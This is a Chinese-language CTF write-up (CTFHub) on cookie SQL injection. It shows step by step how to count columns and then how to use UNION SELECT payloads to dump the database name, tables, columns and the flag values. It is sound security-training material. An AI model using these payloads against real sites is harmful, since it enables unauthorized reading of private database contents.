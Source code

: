 ### Cookie 注入

话不多说，直接上题（CTFHUB）

![](https://pic1.imgdb.cn/item/687b6d1a58cb8da5c8c722bd.png)

提示看 Cookie

![](https://pic1.imgdb.cn/item/687b6d3a58cb8da5c8c72326.png)

抓包看到注入点

![](https://pic1.imgdb.cn/item/687b6d5d58cb8da5c8c7233a.png)

将 ID 改为 2，响应也变为了 2

![](https://pic1.imgdb.cn/item/687b6da858cb8da5c8c7236b.png)

改为 3 过后呢看不到用户名了，说明以 id 查询结果只有两个

![](https://pic1.imgdb.cn/item/687b6e5358cb8da5c8c723b4.png)

爆列数，3 没有结果 2 有结果，说明有两列

```sql
id=1 order by 3#;
```

![](https://pic1.imgdb.cn/item/687b6fdd58cb8da5c8c723e7.png)

拿到数据库名

```sql
id=3 union select 1,database()#;
```

![](https://pic1.imgdb.cn/item/687b6ea558cb8da5c8c723cc.png)

爆表

```sql
id=3 union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'sqli'#;
```

![](https://pic1.imgdb.cn/item/687b704158cb8da5c8c723fd.png)

爆字段

```sql
id=3 union select 1,group_concat(column_name) from information_schema.columns where table_name = 'yegfyjbxsr'#;
```

![](https://pic1.imgdb.cn/item/687b706c58cb8da5c8c72405.png)

爆值

```sql
id=3 union select 1,group_concat(oicwrwxmfo) from yegfyjbxsr#;
```

![](https://pic1.imgdb.cn/item/687b70c058cb8da5c8c7241b.png)